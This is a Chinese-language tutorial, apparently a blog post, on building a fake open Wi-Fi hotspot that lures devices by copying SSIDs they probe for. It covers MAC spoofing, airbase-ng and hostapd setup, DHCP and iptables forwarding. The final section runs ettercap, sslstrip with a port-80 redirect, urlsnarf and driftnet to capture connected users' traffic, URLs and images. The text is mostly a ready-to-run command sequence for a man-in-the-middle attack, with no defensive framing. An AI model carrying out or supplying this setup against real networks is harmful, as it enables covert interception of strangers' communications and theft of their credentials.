 建立soft Ap并进行嗅探，主要有如下4步：

1.airbase-ng建立热点
2.dhcpd启动dhcp服务
3.iptables设置好转发规则，使接入Soft AP客户的数据可正常访问互联网
4.启动嗅探工具收集信息

## 启动monitor模式 ##

    airmon-ng start wlan1
    ifconfig wlan1 down
    macchanger –r wlan1
    ifconfig wlan1 up
    ifconfig mon0 down
    macchanger –r mon0
    ifconfig mon0 up 
## 使用airbase-ng建立OPN的Soft AP ##

airbase-ng主要用于建立OPN的AP，也就是不需要密码的公开AP。WEP加密的已经很少见了，不支持WPA加密。这一步中，最关键的是AP的ssid，ssid决定了AP欺骗性，也就是被连接的可能性。现在手机、平板电脑的客户端会自动记录连接过的AP信息，保存在/data/misc/wifi/wpa_suppliant.conf中，每个热点保存四个信息：ssid、psk（密码）、key_mgmt（加密方式）、priority（优先级）。注意，其中不含网卡的硬件地址.所以，只需前三项对上，便可自动连接。
手机wifi功能打开时，会不断向外发送probe信息包，里面包含ssid。可用airodump-ng查看当前网络环境下有哪些被probe的ssid，供伪造ssid时参考。
选定名称后，便可使用airbase-ng建立Fake AP了：
airbase-ng $FAKE_AP_INTERFACE -e $FAKE_AP_ESSID -c
airbase-ng运行成功后，ifconfig查看，会多出一个at0接口。
 
## 利用 hostapd 建立 ap  ##
hostapd是一个带加密功能的无线接入点程序，是Linux操作系统上构件无线接入点的一个比较方便的工具，支持IEEE 802.11协议和IEEE 802.1X/WPA/WPA2/EAP/RADIUS加密。 

基本配置：

    ssid=test
    hw_mode=g
    channel=10
    interface=wlan0
    bridge=br0
    driver=nl80211
    ignore_broadcast_ssid=0
    macaddr_acl=0
    accept_mac_file=/etc/hostapd.accept
    deny_mac_file=/etc/hostapd.deny 
    
上面列出的配置基本上是必须的，其中：

ssid：别人所看到的我们这个无线接入点的名称； 
hw_mode：指定802.11协议，包括 a = IEEE 802.11a, b = IEEE 802.11b, g = IEEE 802.11g； 
channel：设定无线频道； 
interface：接入点设备名称，注意不要包含ap后缀，即如果该设备称为wlan0ap，填写wlan0即可； 
bridge：指定所处网桥，对于一个同时接入公网、提供内部网和无线接入的路由器来说，设定网桥很有必要； 
driver：设定无线驱动，我这里是nl80211； 
macaddr_acl：可选，指定MAC地址过滤规则，0表示除非在禁止列表否则允许，1表示除非在允许列表否则禁止，2表示使用外部RADIUS服务器； 
accept_mac_file：指定允许MAC列表文件所在； 
deny_mac_file：指定禁止MAC列表文件所在； 
 
下面介绍关于认证方式的配置： 

    auth_algs=1
 
其中auth_algs指定采用哪种认证算法，采用位域（bit fields）方式来制定，其中第一位表示开放系统认证（Open System Authentication, OSA），第二位表示共享密钥认证（Shared Key Authentication, SKA）。我这里设置alth_algs的值为1，表示只采用OSA；如果为3则两种认证方式都支持。不过很奇怪的是，在我工作中如果配置了3，不管采用WEP/WPA/WP2加密的方式都从没连接成功过，配置为2也是如此。所以在我的配置当中，如果采用认证，则设置auth_algs为1；否则把这行代码注释掉（在前面加#）。
 
由于RADIUS认证需要提供外部RADIUS服务器，我们没有这个功能，因此我只研究了WEP、WPA和WPA2这三种加密方式。 
 
    #wep_default_key=0
    #wep_key0=1234567890
    #wep_key1="vwxyz"
    #wep_key2=0102030405060708090a0b0c0d
    #wep_key3=".2.4.6.8.0.23"
    #wep_key_len_broadcast=13
    #wep_key_len_unicast=13
    #wep_rekey_period=300
    
如果要启用WEP加密，只需配置wep_default_key和其中一个wep_keyx，其中x的值只能在0~3之间，wep_default_key的值必须启用了。注意wep_keyx的值不是任意的，只能是5、13或16个字符（用双引号括住），或者是10、26或32个16进制数字。由于WEP加密算法已经被破解了，所以通常不启用它，全部注释掉。 

    wpa=2
    wpa_passphrase=12345678
    wpa_key_mgmt=WPA-PSK
    #wpa_pairwise=TKIP CCMP
    rsn_pairwise=TKIP CCMP

现在推荐的加密方式是WPA/WPA2，由于时间紧迫，我没有怎么去了解过这两者的差别。不过配置是很简单的：

wpa：指定WPA类型，这是一个位域值（bit fields），第一位表示启用WPA，第二位表示启用WPA2。在我的配置中，无论设置成1、2或3，都可以正常连接； 
wpa_passphrase：WPA/WPA2加密需要指定密钥，这个选项就是配置WPA/WPA2的密钥。注意wpa_passphrase要求8~63个字符。另外还可以通过配置wpa_psk来制定密钥，不过要设置一个256位的16进制密钥，不适合我们的需求； 
wpa_pairwise/rsn_pairwise：如果启用了WPA，需要指定wpa_pairwise；如果启用了WPA2，需要指定rsn_pairwise，或者采用wpa_pairwise的设定。都可以设定成TKIP、CCMP或者两者都有，具体含义我也没仔细弄清楚。一篇比较老的文章说TKIP不兼容Windows Mobile，但我的Windows Mobile 6.5在这两种算法下都没有遇到任何问题。 

经过这样一些配置，启动hostapd之后应该就可以按照自己的需求正常使用无线接入点功能了： 

    /usr/bin/hostapd -f /etc/hostapd.conf 
    
REF： 
http://www.cnblogs.com/zhuwenger/archive/2011/03/11/1980294.html 
http://forum.ubuntu.org.cn/viewtopic.php?t=421829 
 
## dhcp服务 ##

客户端连接上SoftAP后，要给他们分配IP地址。这里有一条最关键，就是SoftAP的IP地址和Internet接口的IP地址不能在网一个段。比如，连接Internet网的网卡eth0，地址是10.10.10.138/24，则at0的地址后面不能设置为同一网段，这里设置为10.0.0.1/24。

### 安装dhcp服务 ###

    apt-get install isc-dhcp-server

接下来然后需要将SoftAP的接口，也就是airbase-ng创建的at0设置为该网段的网关：
ifconfig at0 up
ifconfig at0 10.0.0.1 netmask 255.255.255.0
ifconfig at0 mtu 1500
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1

### 启动dhcp服务 ###

    dhcpd -d -f -cf dhcpd.conf <INTERFACE>
    
## 使用iptables设置转发 ##

使用iptables设置转发，将用户连接SoftAP后的数据，转发到internet上，是非常关键的一步。网上各种版本很多，其实最简单的实现就一句指令：

    iptables -t nat -A POSTROUTING --out-interface $FAKE_AP_INTERNET -j MASQUERADE    #$FAKE_AP_INTERNET是外网接口
    
注意，转发生效需要本机开启ip_forward功能。指令是：

    echo "1" > /proc/sys/net/ipv4/ip_forward

由于后面运行ettercap时，会将该值再次变为0，所以等ettercap运行后再执行上述命令。

## 运行各种嗅探工具 ##

SoftAP建立并运行dhcp服务后，客户端就可以根据我们设定的规则连接上热点并正常浏览网页，运行各个程序了。接下来，就是针对Soft AP的接口at0，执行各种嗅探：

    ettercap -Tzq -i $FAKE_AP_AT_INTERFACE -w $SESSION_PATH/etter.pcap -L $SESSION_PATH/etter
    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $SSLSTRIP_PORT
    sslstrip -pkf -l $SSLSTRIP_PORT -w $SESSION_PATH/sslstrip.log 2>/dev/null
    urlsnarf -i $1 | grep http > $SESSION_PATH/url.txt
    tail -f $SESSION_PATH/url.txt
    driftnet -i $1 -d $SESSION_PATH/
